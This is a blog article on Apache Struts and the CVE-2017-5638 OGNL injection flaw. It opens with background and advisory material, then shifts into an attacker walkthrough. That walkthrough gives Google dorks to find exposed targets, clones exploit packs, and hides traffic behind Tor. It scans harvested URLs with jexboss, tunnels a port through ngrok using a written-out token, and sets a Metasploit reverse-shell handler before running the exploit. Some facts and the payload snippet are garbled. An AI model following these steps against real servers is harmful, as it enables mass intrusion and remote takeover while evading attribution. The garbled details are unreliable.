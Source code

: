 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


## Apache Struts
What is [Apache Struts](https://www.whitehatsec.com/glossary/content/apache-struts)?
<br>
Apache Struts is an open-source web application framework used for creating Java EE web applications. It became a top-level Apache project in 2005. 
Without Apache Struts, a standard Java EE web application receives information to a server through a web form submitted by a client or similar user. The information is then given to a Java Servlet or JavaServer Pages. In the Java Servlet, the information communicated interacts with a database and creates a response in HTML. Similarly, JavaServer Pages can be used to blend Java code and HTML for the same result. <br>
Since these approaches mix presentation with application logic, they can make maintenance difficult for large projects. Apache struts is used to help amend that.
Apache Struts helps fix the problems created with a standard Java EE web application by separating the model (the application logic that interacts with a database) from the view (HTML pages shown to the client) and from the controller (information that passes between the model and view). Struts provides the controller and promotes the writing of templates for the presentation layer or view. The programmer needs to write the model code and create a central configurate file that binds together model, view, and controller.

## What is Apache Struts 1?
Apache Struts 1 is the first iteration of Struts created in May 200 by Craig McClanahan and donated to the Apache Foundation. Its request-based framework consisted of 3 main components:
 - ***A Request Handler***
 - ***A Response Handler***
 - ***A Tag Library***
 
These worked to simplify the process of handling large projects and supported REST applications in addition to technologies such as SOAP & AJEX. However, due to limitations within Apache Struts 1 it was modified and updated in Struts 2.

## What is Apache Struts 2?
Apache Struts 2 was released in February 2007 and the rebranding of WebWork 2.2. Whilst the same architecture from Struts 1 was the same, the code base was completely different and unlike Struts 1 where requests went directly to the servlet, in Struts 2 requests & responses travel through an interceptor/filter.

## Vulnerabilities within Apache Struts
Struts has had numerous vulnerabilities disclosed, many based on its use of OGNL (Object-Graph Navigation Language). Many of these vulnerabilities have been particularly serious as they allow an attacker to carry out arbitrary remote code execution, potentially allowing complete control of the server. 
The most high-profile Struts exploit happened in September 2017’s Equifax breach, which took advantage of a Struts vulnerability disclosed 6 months earlier. 
Whilst some vulnerabilities were discovered within Struts 1 ( Denial of Service: [CVE-2006-1547](https://www.cvedetails.com/cve/CVE-2006-1547/), Cross Site Scripting: [CVE-2008-2025](https://www.cvedetails.com/cve/CVE-2008-2025/)), most vulnerabilities have been found on Struts 2 with many tied to the usage of OGNL technology.
In 2016 there were 16 unique CVE’s released relating to Apache Struts 2 which like Struts 1 included, Denial of Service & Cross Site Scripting but further included Remote Code Execution and CSRF.
In 2017 there were 15 16 unique CVE’s. It was in 2017 it was discovered that certain versions of the [Apache Struts 2](https://www.whitehatsec.com/blog/apache-struts-cve-2017/) Framework (Struts 2.3.5 – 2.3.31 and 2.5 – 2.5.10) were vulnerable to remote code execution attacks. This allowed attackers to deliver malicious payloads. To prevent these attacks, it was recommended to upgrade to Apache Struts version 2.3.32 or 2.5.10.1.
You’ll gain a comprehensive understanding of the state of application security across the whole software development life cycle by reading through our [latest Stats Report](https://www.whitehatsec.com/resources-category/threat-reports/).

## Apache Struts Vulnerability Testing 
[WhiteHat’s DAST application scanning](https://www.whitehatsec.com/platform/dynamic-application-security-testing/) detects a large number of Struts vulnerabilities using production-safe tests. 

# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

~ intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
~ intitle:"Struts Problem Report" intext:"development mode is enabled."
~ filetype:action
~ filetype:do
~ filetype:java
~ filetype:out
~ filetype:bat
~ filetype:seam
~ filetype:sh
~ filetype:bson
~ filetype:el
~ filetype:pm
~ inurl:login.action
~ inurl:login.do
~ inurl:login.java
~ inurl:index.action
~ inurl:index.do
~ inurl:index.java

## TOOLS

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v4.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~
***or
~~~bash
git clone https://github.com/andrefernandes86/demo-apachestruts-attacker-web.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~
<details>
<summary>Complete Guide</summary>
[netsparker](https://www.netsparker.com/blog/web-security/finding-exploiting-apache-struts-vulnerabilities/)
[Related Articles](https://github.com/search?q=apachestruts&type=all)

